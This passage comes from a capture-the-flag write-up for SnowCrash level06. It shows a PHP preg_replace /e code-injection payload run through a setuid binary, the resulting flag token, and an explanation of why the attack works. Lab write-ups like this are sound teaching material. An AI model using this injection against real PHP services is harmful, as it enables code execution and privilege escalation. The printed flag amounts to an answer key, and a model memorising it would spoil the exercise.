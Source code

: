 Now let's execute `getflag` to retrieve the flag:

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag06
level06@SnowCrash:~$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

**Success!** The flag is embedded in the error message: `wiok45aaoguiboiki2tuin6ub`


## Technical Deep Dive

### Why the Injection Works

1. **Regex Pattern**: `/(\[x (.*)\])/e` captures everything between `[x` and `]`
2. **Code Evaluation**: The `/e` modifier treats the replacement as executable PHP code
3. **Variable Interpolation**: `${...}` in PHP attempts to use the content as a variable name
4. **Command Substitution**: Backticks execute shell commands and return output
5. **Privilege Escalation**: The setuid bit ensures commands run with flag06 privileges

### The Attack Chain

```
File Content: [x ${`getflag`}]
       ↓
Regex Match: captures ${`getflag`}
       ↓
PHP Evaluation: Executes ${`getflag`}
       ↓
Command Execution: `getflag` runs as flag06
       ↓
Variable Lookup: PHP tries to find variable named after command output
       ↓
Error with Flag: "Undefined variable: Check flag.Here is your token : ..."
```

## Security Implications

This level demonstrates several critical vulnerabilities:

### 1. **Code Injection via preg_replace /e**
- Direct execution of user-controlled input as PHP code
- Deprecated feature with known security risks
- Insufficient input validation

### 2. **File Processing Vulnerabilities**
- Processing user-controlled files without sanitization
- Template systems with dangerous evaluation features

### 3. **Privilege Escalation**
- Setuid binary amplifies the impact of code injection
- Web-like vulnerabilities in system binaries
